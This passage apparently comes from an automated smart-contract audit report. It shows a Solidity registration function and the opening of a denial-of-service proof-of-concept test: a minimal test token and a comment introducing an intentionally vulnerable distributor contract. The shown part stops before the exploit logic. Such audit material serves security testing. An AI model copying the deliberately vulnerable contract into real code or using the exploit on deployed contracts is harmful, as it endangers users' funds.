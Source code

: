 **Code Snippet:**

```solidity
function register() public {
        require(block.timestamp <= registrationDeadline, "Registration closed");
        require(eligible.isEligible(msg.sender), "Not eligible");
        require(!registered[msg.sender], "Already registered");
        registered[msg.sender] = true;
        participants.push(msg.sender);
    }
```

**Affected Functions:** register

---

## Proof of Concept Exploits

### PoC #1: denial_of_service

**File:** /Users/advait/Desktop/NTU/fyp-fr/exploit/src/test/PoC_unknown_1742540280.sol

**Execution:** ✅ SUCCESS

**Exploit Code:**

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

// Import the base test contract as specified
import "./basetest.sol";

//////////////////////////////
// Minimal ERC20 Interface and Implementation for Testing
//////////////////////////////
interface IERC20 {
    function transfer(address recipient, uint256 amount) external returns (bool);
}

contract TestToken is IERC20 {
    string public name = "TestToken";
    string public symbol = "TTK";
    uint8 public decimals = 18;
    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;

    // Mint tokens for testing
    function mint(address to, uint256 amount) public {
        balanceOf[to] += amount;
        totalSupply += amount;
    }

    // Minimal transfer function with proper error handling
    function transfer(address recipient, uint256 amount) public override returns (bool) {
        require(balanceOf[msg.sender] >= amount, "Insufficient balance in token");
        balanceOf[msg.sender] -= amount;
        balanceOf[recipient] += amount;
        return true;
    }
}

//////////////////////////////
// Vulnerable Distributor Contract
//////////////////////////////
// This contract is intentionally vulnerable for educational purposes.
```